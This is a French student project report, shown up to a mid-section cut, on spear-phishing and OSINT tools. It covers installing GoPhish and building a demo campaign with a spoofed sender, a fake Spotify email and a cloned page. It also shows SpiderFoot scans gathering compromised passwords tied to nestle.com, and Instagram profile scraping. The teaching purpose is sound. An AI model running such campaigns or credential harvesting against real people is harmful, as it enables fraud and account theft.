# SEN - Projet - Spear Phishing

> Auteurs : Jérôme Arn, Cassandre Wojciechowski
>
> Date : 14.06.2021

## 1 Descriptions d'outils

### 1.1 GoPhish

#### 1.1.1 Introduction 

GoPhish est un outil gratuit de phishing open source dont on trouve les fichiers sur [Github](https://github.com/gophish/gophish/releases). Il tourne sur Linux, Windows et mac OS. Avec cet outil, il est possible d'envoyer des e-mails de phishing et d'avoir un retour immédiat sur les e-mails qui ont été ouverts : combien ont été ouverts, sur lesquels le destinataire a cliqué, dans le cas d'une redirection sur une fausse page on peut connaître les données entrées par la victime. 

Cet outil a d'abord été pensé dans l'optique de tester les réactions de destinataires d'e-mails frauduleux. L'installation se veut très facile et l'utilisation aussi. L'interface web a l'avantage d'être très simple et claire. A côté des champs qui peuvent poser problème à l'utilisateur de l'outil, des bulles d'aide sont présentes pour l'orienter. 

#### 1.1.2 Installation

Comme établi précédemment, l'installation se veut très facile. La procédure suivante a été testée sur une machine Ubuntu 20.04 : 

- Télécharger le fichier .zip depuis le repo Github : https://github.com/gophish/gophish/releases
- Créer un répertoire `gophish` 
- Placer dans le répertoire `gophish` le fichier .zip précédemment téléchargé
- Décompresser le fichier .zip 
- Ajouter des permissions d'exécution sur le fichier binaire `gophish`

```sh
// Commandes à effectuer : 

$ mkdir gophish
$ mv gophish*.zip gophish
$ cd gophish
$ unzip gophish*.zip
$ cd gophish*
$ chmod u+x gophish
```

#### 1.1.3 Utilisation 

Pour utiliser l'outil GoPhish, il faut exécuter le fichier binaire `gophish` : 

```sh
$ ./gophish
```



Il est possible qu'une erreur `fatal` apparaisse car le port 80 est déjà utilisé par un autre service et GoPhish souhaite par défaut s'en servir pour afficher les pages qu'il va cloner. Ceci est modifiable dans le fichier `config.json` décrit ci-après. 

Sur la capture d'écran ci-dessus, on observe à la cinquième ligne un nom d'utilisateur `admin` et un mot de passer composé de lettres et de chiffres. Il faut garder ces données le temps d'effectuer la première connexion sur l'outil. 

Pour se connecter sur l'interface graphique évoquée précédemment, il faut lancer un navigateur web et y entrer l'URL `https://127.0.0.1:3333`. Si cette URL ne fonctionne pas, il faut se référer au fichier `config.json` qui contient les adresses IP et les ports pour se connecter au service. En se connectant sur l'URL, on trouve la page suivante, sur laquelle il faut entrer les identifiants indiqués par les logs au démarrage : 



GoPhish nous demande ensuite de modifier le mot de passe. Après modification, nous accédons à la page d'accueil permettant d'entreprendre toutes sortes d'actions : 



Pour lancer une campagne, il faut d'abord passer par plusieurs étapes : 

1. Créer un profil (`Sending Profiles`) qui va matérialiser un utilisateur imaginaire envoyant des e-mails
2. Créer un modèle d'e-mail (`Email Templates`) pour modéliser un e-mail donnant envie à un destinataire de l'ouvrir et le lire
3. Créer une fausse page (`Landing Pages`) qui sera créé par l'outil en cas de clic de l'utilisateur sur le lien comporté dans l'e-mail
4. Créer un groupe de personnes ciblées (`Users & Groups`), soit en important des e-mails depuis un .csv, soit manuellement
5. Finalement, créer la campagne (`Campaigns`) en composant avec les éléments créés précédemment
6. Lancer la campagne !

#### 1.1.4 Démonstration

Pour créer un profil, il faut se rendre sur l'onglet correspondant et entrer les informations requises : 



Ci-dessus un exemple montrant un profil créé pour faire croire à une personne que Dolly Parton lui a envoyé un e-mail. Nous passons par un serveur smtp de Google. Nous avons du accéder au compte `cassandre.wojcie` et ajouter un mot de passe d'application pour autoriser GoPhish à passer par ce compte gmail. Une fois les informations complétées, il faut sauvegarder le profil créé. 

Pour créer un modèle d'e-mail, il faut se rendre sur l'onglet correspondant puis fournir les informations demandées : 



Sur l'exemple ci-dessus, un modèle a été trouvé sur [Github](https://github.com/criggs626/PhishingTemplates) pour faire croire à un destinataire que son compte Spotify rencontre des problèmes. Il suffit de copier le modèle mis à disposition sur Github, puis de le coller dans la fenêtre HTML figurant sur la page GoPhish. 

Pour créer une "landing page", il suffit d'entrer un lien en cliquant sur le bouton "Import Site", puis la page web entrée est copiée par GoPhish. 


Pour créer des groupes de destinataires, il est possible d'importer les informations depuis un fichier ou de les entrer manuellement. 



Il faut préciser les prénoms et noms, ainsi que l'adresse e-mail et éventuellement le poste. Les champs "nom" et "prénom" sont importants à compléter car ils peuvent être réutilisés dans le corps du message afin de personnaliser l'e-mail et de mettre en confiance le destinataire. 

Puis finalement, on peut lancer une campagne : 



Pour lancer la campagne, il faut indiquer les éléments créés que l'on souhaite utiliser. Le champs URL doit être complété en indiquant l'adresse à laquelle la page clonée sera matérialisée. Dans le cadre de cette démonstration, tout est effectué en local et l'adresse IP indiquée est l'adresse de la machine utilisée pour créer la campagne. Le port 8081 est le port indiqué dans le fichier `config.json`. Pour une campagne réelle, il faudrait passer par un serveur configuré à cet effet pour éviter de modifier toutes les configurations de notre machine personnelle et de devoir la laisser allumée tout au long de la campagne. 

Pour lancer la campagne, il faut cliquer sur le bouton "Launch Campaign". En allant sur la boite mail utilisée pour le test, nous y trouvons bien le mail créé précédemment : 

 

Nous observons que le prénom fourni est utilisé pour la formule de salutation et qu'un lien est inséré dans le mail. En cliquant sur le lien, nous arrivons sur la page suivante, dont on peut observer l'URL : 


L'URL est celle indiquée sur la page de lancement de campagne associée à un `rid`. 

#### 1.1.5 Conclusion 

En suivant le processus d'installation et d'utilisation, nous constatons que l'outil GoPhish est très bien fait et très simple d'utilisation. La documentation regorge d'informations pour aider l'utilisateur et beaucoup d'utilisateurs mettent à disposition des modèles d'e-mails ou de pages qui peuvent être utilisés pour lancer des campagnes. Le temps nécessaire à la prise en main de cet outil est très court. Dans le cadre de la rédaction de ce rapport, une heure a suffit pour l'installation et la démonstration. 

L'outil est très bien imaginé et son but est clair : lancer des campagnes de phishing au sein d'une entreprise pour déterminer les employés sensibles à ces e-mails. Lors de la démonstration, nous avons simplement redirigé l'utilisateur sur une page Youtube clonée, mais il serait plus probable que lors d'un audit de sécurité, le destinataire soit redirigé sur un formulaire afin d'entrer des informations. Celles-ci peuvent être récupérées par GoPhish. 

L'outil est très utile et permet d'automatiser de nombreuses tâches telles que le clonage d'une page et l'envoi en masse d'e-mails. 

### 1.2 SpiderFoot

#### 1.2.1 Introduction 

SpiderFoot est un outil de recherche d'informations opensource sur une cible donnée. Il est disponible sur tous les OS les plus courants. Il permet entre-autre d'automatiser la recherche d'informations sur une entreprise à partir de bases de données publiques ou d'obtenir des informations à partir d'un nom d'utilisateur.

#### 1.2.2 Installation

Il y a plusieurs moyen d'installer cet outil. On peut utiliser un gestionnaire de paquets et on peut aussi le télécharger directement depuis Github via les instructions suivantes tirées de leur `README.md`.

````sh
// Commandes à effectuer :

$ wget https://github.com/smicallef/spiderfoot/archive/v3.3.tar.gz
$ tar zxvf v3.3.tar.gz
$ cd spiderfoot
$ pip3 install -r requirements.txt
````

#### 1.2.3 Utilisation 

Pour lancer l'interface web, exécutez la commande suivante :

````sh
$ python3 ./sf.py -l 127.0.0.1:5001
````

Puis ouvrir dans votre navigateur préféré l'adresse ci-dessus. Il suffira ensuite d'aller sur l'onglet **New Scan**, d'entrer un nom et une cible selon les explications à droite des entrées utilisateur. 



Une fois cela effectué, on peut choisir les options du scan. Par "use case", par donnée voulues ou par module.

#### 1.2.4 Démonstration

Pour un premier scan, nous décidons de prendre l'option `all inclusive` sur le domaine de la HEIG-VD. 



Avec le scan du nom de domaine `heig-vd.ch`, nous obtenons plus de 110 résultats. Cela peut être par exemple le bitbucket ou une archive du site internet, des adresses IP, ... Cependant certaines données ne sont pas toujours utilisables ou exactes.



Pour le deuxième scan, nous choisissons certaines données sur le domaine de `nestle.com`. Les données qui ont été sélectionnées sont :

- Company Name
- Compromised Password
- Domain Whois
- Hacked Email Address

Voici le résultat que l'on obtient avec seulement 4 données choisies. Nous avons plus de 500 résultats uniques :



#### 1.2.5 Conclusion 

SpiderFoot est très intéressant quand il s'agit de rechercher des données sur des entreprises et des adresses mail. En revanche, et comme pour beaucoup d'outils, quand il s'agit d'une personne individuelle on obtient peu de résultat.

Nous obtenons effectivement de nombreux résultats mais il faut se montrer prudent, les analyser et  les trier car certains sont faux ou inutiles.

### 1.3 instagramOSINT

#### 1.3.1 Introduction

InstagramOSINT sert à récupérer des informations venant d'un compte instagram. Les informations pouvant être obtenues sont :

- Nom du profil
- L’URL du compte et celle de la photo de profil
- Les statistiques du compte
- Le type du compte
- S'il est relié à Facebook
- S'il est privé ou vérifié

On peut aussi télécharger les photos, si le compte est public.

L'outil a été testé sur un environnement GNU/Linux mais étant donné qu'il s'agit d'un script python à exécuter cela devrait fonctionner sur toutes les plateformes. Il est disponible sur Github. 

#### 1.3.2 Installation

Ce programme nécessite **python 3.6** au minimum (en cas de besoin, téléchargez [python3](https://www.python.org/downloads/)). L'installation consiste à cloner le repo Github puis à installer les dépendances contenues dans le fichier `requirements.txt`. 

````shell
// Commandes à effectuer : 

$ git clone https://github.com/hans-arn/InstagramOSINT.git
$ cd InstagramOSINT 
$ pip3 install -r requirements.txt
````

L'outil est désormais prêt à fonctionner.

####  1.3.3 Utilisation 

Pour son utilisation, nous devons déjà posséder des pseudos instagram pour vérifier si le compte existe. 

#### 1.3.4 Démonstration

##### Compte inexistant 

Nous avons testé avec un compte inexistant pour voir comment réagit le programme et nous constatons que l'outil indique ne pas trouver l'utilisateur recherché : 



##### Compte d'une personne normale  

En essayant d'utiliser instagramOSINT sur le nom d'utilisateur d'un membre du groupe, nous trouvons effectivement toutes les informations disponibles sur son compte : 

